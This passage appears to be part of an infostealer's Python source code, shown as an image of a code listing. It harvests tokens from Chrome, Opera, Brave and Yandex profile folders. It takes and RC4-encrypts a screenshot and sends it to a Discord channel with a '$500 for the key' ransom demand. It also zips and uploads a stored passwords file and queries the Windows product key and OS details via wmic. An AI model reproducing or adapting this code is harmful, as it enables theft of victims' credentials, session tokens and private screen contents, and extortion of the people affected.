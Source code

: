 ```
        'Google Chrome': local + '\\Google\\Chrome\\User Data\\Default',
        'Opera': roaming + '\\Opera Software\\Opera Stable',
        'Brave': local + '\\BraveSoftware\\Brave-Browser\\User Data\\Default',
        'Yandex': local + '\\Yandex\\YandexBrowser\\User Data\\Default'
    }

    message = '\n'
    for platform, path in paths.items():
        if not os.path.exists(path):
            continue

        message += '```'
        tokens = sniff(path)

        if len(tokens) > 0:
            for token in tokens:
                message += f'{token}\n'
        else:
            pass
        message += '```'

    try:
        from PIL import ImageGrab
        from Crypto.Cipher import ARC4
        screenshot = ImageGrab.grab()
        screenshot_path = os.getenv('ProgramData') + r'\pay2winflag.jpg'
        screenshot.save(screenshot_path)

        with open(screenshot_path, 'rb') as f:
            image_data = f.read()

        key = b'tralalero_tralala'
        cipher = ARC4.new(key)
        encrypted_data = cipher.encrypt(image_data)

        encrypted_path = screenshot_path + '.enc'
        with open(encrypted_path, 'wb') as f:
            f.write(encrypted_data)

        await channel.send(f"Screenshot from {hostname} (Pay $500 for the key)", file=discord.File(encrypted_path))

    except Exception as e:
        print(f"Error taking screenshot: {e}")

    try:
        zname = r'C:\ProgramData\passwords.zip'
        newzip = zipfile.ZipFile(zname, 'w')
        newzip.write(r'C:\ProgramData\passwords.txt')
        newzip.close()
        
        await channel.send(f"Passwords from {hostname}", file=discord.File(zname))
    except Exception as e:
        print(f"Error with password file: {e}")

    try:
        usr = os.getenv("UserName")
        keys = subprocess.check_output('wmic path softwarelicensingservice get OA3xOriginalProductKey').decode().split('\n')[1].strip()
        types = subprocess.check_output('wmic os get Caption').decode().split('\n')[1].strip()
    except Exception as e:
        print(f"Error getting system info: {e}")
        usr = "Unknown"
```